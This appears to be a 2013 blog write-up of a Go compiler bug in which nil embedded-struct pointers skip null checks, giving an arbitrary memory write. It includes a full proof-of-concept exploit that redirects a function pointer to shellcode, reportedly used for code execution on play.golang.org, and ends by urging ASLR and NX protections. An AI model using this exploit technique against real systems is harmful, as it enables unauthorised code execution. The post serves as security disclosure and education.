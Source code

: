Title: Exploiting a Go Binary
Date: 2013-04-23
Tags: golang, exploitation
Summary: Last night, tylerni7 showed us a proof of concept for a 32 bit Go exploit using <a href="https://code.google.com/p/go/issues/detail?id=464">this issue</a>. geohot and I had a wager over who could get the first remote code execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but just barely ;-). Here is a summary of how we did it.

<h3>Introduction</h3>
Last night, tylerni7 showed us a proof of concept for a 32 bit Go exploit using <a href="https://code.google.com/p/go/issues/detail?id=464">this issue</a>. geohot and I had a wager over who could get the first remote code execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but just barely ;-). Props also to ricky for help finding the underlying cause and updating the exploit for Go 1.03. Here is a summary of how we did it.

<h3>The Bug</h3>
<p>Go has support for embedded structs. You can define an embedded struct as follows:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   Embedded
   bar int
}

var instance Struct
~~~
<p>
It is valid to do both <tt>instance.bar</tt> and <tt>instance.foo</tt>.</p>

<p>The <a href="https://code.google.com/p/go/issues/detail?id=464">problem</a> comes when you try something slightly trickier:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   *Embedded
   bar int
}

var instance Struct
~~~
<p>
When you access <tt>instance.foo</tt> (a member of an uninitialized struct), it incorrectly offsets from 0 rather than from the base of an <tt>Embedded</tt> struct. Normally, when dereferencing a pointer inside a struct, the go compiler
emits guard code which will cause a segfault if the pointer is nil.
However, this code is not emitted when the pointer is the first element
of the struct, since it's assumed that this will cause a segfault
whenever it is used anyway.  This assumption is not always valid, as the
pointer can be to a large struct such that the offsets of members of the large
struct are valid addresses.
</p>

<h3>The Vulnerability</h3>
<p>We define an enormous struct and use it to offset memory:</p>
~~~
:::go
type Embedded struct {
   offset [0x400100]byte
   address uint32
}

type Struct struct {
   *Embedded
   bar int
}
var instance Struct
~~~
<p>
Now we can do <tt>instance.address = 0xdeadbeef</tt> and we have written to <tt>0x400100</tt>! This is the arbitrary write primitive we need.</p>

<h3>The Exploit</h3>
<p>Once you have an arbitrary write in go, it is <em>really easy</em> to get arbitrary code execution. We put a function pointer in our data segment (we wanted to put it in the heap, but that didn't work on 64bit Go - apparently the size of a struct is limited to 32 bits. Luckily, the data segment is in the lower 32 bits) and change it to point to our shell code using the arbitrary write. Since Go has <em>no randomization</em> at all, this is as simple as running the program twice. Full exploit below:</p>
~~~
:::go
package main

import "fmt"

// Address to write, computed from a previous run.
const addr_to_overwrite = 0x50e2f0
// &shellcode, computed from a previous run.
const val_to_overwrite uint64 = 0xc200035160

type Embedded struct {
   offset [addr_to_overwrite]byte
   payload uint64
}

type Nested struct {
  // This magic is necessary is because there is an explict null check if
  // if the offset is greater than 0x1000.
  Embedded
}

type Struct struct {
 // The issue is that a reference to the embeded struct pointer here
 // will be offset from null (rather than the true base of the struct).
 // We thus just make sizeof(the embedded struct) large enough to point
 // to the address we want to overwrite.
 //
 // See https://code.google.com/p/go/issues/detail?id=464
 *Nested
}

var unused = func () {}

func main() {
 s := &Struct{}
 shellcode := "\x90\x90\x90\x90\x90\x90\x90\xeb\xfe"

 fmt.Println("You should overwrite this: ", &unused)
 fmt.Println("With this: ", &shellcode)

 fmt.Println("***********************************************");
 fmt.Println("Overwriting ", &s.payload, " with ", val_to_overwrite)

 *(&s.payload) = val_to_overwrite;
 
 unused();
}
~~~

<h3>What Now?</h3>
Well, clearly the issue should be fixed (it was closed 3 years ago as "working as intended"). I also think it is important for Go to add the protections that come now standard with C binaries (ASLR, NX) - I posted <a href="http://ppp.cylab.cmu.edu/wordpress/?p=667">an article</a> earlier about security in Go where I strongly advocated those protections. Luckily, Go 1.1. will be adding some of these protections: specificially, the above exploit will not work because <a href="https://groups.google.com/forum/?fromgroups=#!topic/golang-nuts/o2Q5oc36Qt0">Go 1.1  uses a non-executable heap and stack</a> (the vulnerability still works to give an arbitrary write, but more care is necessary to complete the exploit). The development and release versions (as of time of this writing) are still vulnerable, but good job Go!
